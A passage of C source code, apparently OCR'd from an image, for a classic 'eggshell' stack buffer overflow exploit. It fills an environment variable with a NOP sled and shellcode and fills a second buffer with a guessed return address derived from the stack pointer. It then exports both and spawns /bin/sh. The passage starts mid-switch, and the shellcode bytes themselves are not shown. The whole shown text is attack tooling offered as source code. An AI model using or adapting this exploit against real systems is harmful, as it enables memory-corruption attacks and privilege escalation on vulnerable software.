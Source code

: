 ```c
                break;
			case 'e': 
                eggsize = atoi(optarg); 
                break;
            case 'o': 
                offset = atoi(optarg); 
                break;
            case '?': 
                usage(); 
                exit(0);
        }
    if (strlen(shellcode) > eggsize) {
        printf("Shellcode is larger the the egg.\n");
        exit(0);
    }
    if (!(bof = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    
	addr = get_sp() - offset;
    printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n", bsize, eggsize, align);
	printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);
    
    addr_ptr = (long *) bof;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;
    
    ptr = egg;
    for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
        for (n = 0; n < NOP_SIZE; n++) {
            m = (n + align) % NOP_SIZE;
            *(ptr++) = nop[m];
        }
    
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];
    
    bof[bsize - 1] = '\0';
    egg[eggsize - 1] = '\0';
    memcpy(egg,"EGG=",4);
    putenv(egg);
    memcpy(bof,"BOF=",4);
    putenv(bof);
    system("/bin/sh");
}

void usage(void) {
    (void)fprintf(stderr,
                  "usage: eggshell [-a ] [-b ] [-e ] [-o ]\n");
}
```

